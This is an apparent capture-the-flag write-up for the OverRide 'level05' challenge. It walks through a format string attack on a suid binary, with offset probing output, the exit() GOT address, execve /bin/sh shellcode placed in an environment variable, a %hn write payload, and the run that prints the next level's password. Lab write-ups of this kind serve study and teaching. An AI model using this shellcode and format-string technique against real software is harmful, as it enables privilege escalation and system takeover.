 # Level05

## Solution

* There is one file in our home, ```level05```, belonging to ```level06``` user, with suid.
* Here's the hand-decompiled source code we propose for this binary: [source.c](source.c)

* For the sake of clarity, we won't display the disassembled code, but we will describe its behaviour:

	* there is only one function, ```main()```
	* this function use ```fgets``` and stores the user input in a ```0x64``` bytes buffer
	* each capital letter in the buffer is then replaced by its corresponding small letter
	* ```printf()``` is launched with only the buffer
	* finally the functions uses ```exit()```

* What we did with all of that:

	* our goal was to perform a format string attack
	* we first had to get the offset between the address immediately after the first parameter (format string) of ```printf()``` and the effective address of the buffer : 
	```
	level05@OverRide:~$ ./level05
	bbbb %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
	bbbb 64 f7fcfac0 f7ec3add ffffd6bf ffffd6be 0 ffffffff ffffd744 f7fdb000 62626262 20782520 25207825 78252078 20782520 25207825 78252078 20782520  
	```
	* 9 blocks stand between ```bbbb``` and ```62626262``` (ascii value of ```b```)
	* on another hand we got the location of the address where ```exit()``` jumps:
	```
	08048370 <exit@plt>:
	8048370:	ff 25 e0 97 04 08    	jmp    DWORD PTR ds:0x80497e0
	8048376:	68 18 00 00 00       	push   0x18
	804837b:	e9 b0 ff ff ff       	jmp    8048330 <_init+0x38>
	```
	* we wanted to replace the value stored at ```0x80497e0``` address by the address of a shellcode (in an environment variable):
	```
	export SHELLCODE=`python -c "print('\x90' * 1024 + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xcd\x80')"`
	```
	* we used the same script as in ```level01``` to get an approximative address for our env variable:
	```
	level05@OverRide:~$ /var/crash/env SHELLCODE
	SHELLCODE: 0xffffd4a8
	```
	* finally we put our format string attack in a file:
	```
	python -c "print('e0970408'.decode('hex') + 'aaaa' + 'e2970408'.decode('hex') + '%08x' * 8 + '%054374x' + '%hn' + '%011085x' + '%hn')" > /var/crash/lvl05
	```
	* as ```0xffffd4a8``` is a big number, we splitted into two ```short``` integers
	* we also made sure no byte was greater then ```0x40``` or smaller ```0x5b``` as they would have been transformed by the program
	
	* finally:
	```
	cat /var/crash/lvl05 - | ./level05
	[...]
	cd ../level06
	cat .pass
	h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
	```

